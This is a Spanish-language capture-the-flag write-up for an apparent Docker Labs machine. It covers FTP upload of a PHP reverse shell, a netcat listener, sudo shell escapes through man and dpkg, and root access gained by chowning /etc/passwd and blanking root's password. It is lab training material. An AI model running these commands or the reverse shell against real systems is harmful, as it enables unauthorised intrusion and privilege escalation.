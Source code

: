 #ftp #GTFObins #root #dpkg-l #chown

---


![[Pasted image 20250217213111.png]]

realizamos un escaneo con nmap 
![[Pasted image 20250217213229.png]]
Podemos ver que tiene el puerto 21/ftp 
![[Pasted image 20250217213258.png]]
primero buscamos en la web del puerto 80
![[Pasted image 20250217213428.png]]
No vemos nada interesante a la vista por lo que hacemos un fuzzing web
`dirb http://172.17.0.2`

Podemos ver que existe un directorio ==/upload== 
![[Pasted image 20250217213727.png]]
Utilizando el servicio ftp podemos subir una shell para obtener acceso a la maquina 
Conectandonos a ftp 

![[Pasted image 20250217213908.png]]
Nos cambiamos al directorio /upload
![[Pasted image 20250217213930.png]]
En otra terminal creamos un archivo .php con un código shell el cual podemos obtener del siguiente enlace

`wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`
`mv php-reverse-shell.php virus.php`

una vez teniendo el archivo virus.php con la shell, lo subimos utilizando ftp 

![[Pasted image 20250217214256.png]]

Ahora en el enlace http://172.17.0.2/upload tenemos el archivo .php asi que en una terminal nos ponemos a la escucha con netcat 
![[Pasted image 20250217214520.png]]
ejecutamos el archivo .php en el directorio upload
![[Pasted image 20250217213353.png]]

y estamos dentro 
![[Pasted image 20250217214606.png]]

somos el usuario www-dat por lo que ejecutamos el comando sudo -l para buscar la manera de hacer pivoting de usuarios
vemos que podemos ejecutar el comando /usr/bin/man  como pingu
![[Pasted image 20250217214913.png]]
asi que ejcutamos el comando 
`sudo -u pingu /sr/bin/man man`

![[Pasted image 20250217212225.png]]
posteriormente `!/bin/bash`
y somos el usuario pingu
![[Pasted image 20250217212252.png]]
una vez mas  comando sudo -l y vemos que podemos ejcutar `/usr/bin/nmap` y `/usr/bin/dpkg` como usuario galdys
![[Pasted image 20250217212307.png]]
utilizamos el comando:
`sudo -u gladys dpkg -l`
![[Pasted image 20250217212448.png]]
`!/bin/bash` una vez mas 
y somos el usuario gladys
![[Pasted image 20250217212500.png]]
 finalmente el comando sudo -l como gladys para escalar privilegios como root 
![[Pasted image 20250217212516.png]]

En este caso lo que hay que hacer es cambiar el propietario de /etc/passwd con el siguiente comando :
![[Pasted image 20250217215924.png]]


`sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd`

Luego con sed hacemos que elimine la X que tiene root para que la contraseña desaparezca y creamos un archivo temporal en tmp.

![[Pasted image 20250217212916.png]]

Finalmente copiamos el tmp donde se encuentra  el archivo original para que lo sobrescriba
![[Pasted image 20250217212908.png]]
con el archivo sobreescrito queda de la siguiente manera 
![[Pasted image 20250217215817.png]]

Ahora hacemos un su ROOT y accedemos al usuario ROOT sin colocar una contraseña
![[Pasted image 20250217212928.png]]


---
[[Docker Labs]]
